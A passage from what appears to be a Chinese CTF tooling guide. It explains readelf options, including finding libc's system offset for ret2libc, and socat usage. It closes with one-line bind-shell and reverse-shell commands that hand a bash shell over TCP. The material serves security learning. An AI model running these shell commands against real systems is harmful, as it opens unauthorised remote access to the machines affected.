 #### 重要参数
```text
-h --file-header       Display the ELF file header
-e --headers           Equivalent to: -h -l -S
-l --program-headers   Display the program headers
-S --section-headers   Display the sections' header
-s --syms              Display the symbol table
-r --relocs            Display the relocations (if present)
-d --dynamic           Display the dynamic section (if present)
```
另外 `-w` 选项表示 DWARF2 调试信息。

#### 常见用法
查找库中函数的偏移量，常用于 **ret2lib**：
```shell
$ readelf -s [path/to/library.so] | grep [function_name]@
```
例如：
```
$ readelf -s /usr/lib/libc-2.26.so | grep system@
   595: 0000000000041fa0    45 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1378: 0000000000041fa0    45 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.2.5
```


## socat
**socat** 是 netcat 的加强版，CTF 中经常需要使用使用它连接服务器。

#### 安装
```shell
$ yaourt -S socat
```

#### 常见用法
```shell
$ socat [options] <address> <address>
```

连接远程端口
```shell
$ socat - TCP:localhost:80
```

监听端口
```shell
$ socat TCP-LISTEN:700 -
```

正向 shell
```shell
$ socat TCP-LISTEN:700 EXEC:/bin/bash
```

反弹 shell
```shell
$ socat tcp-connect:localhost:700 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
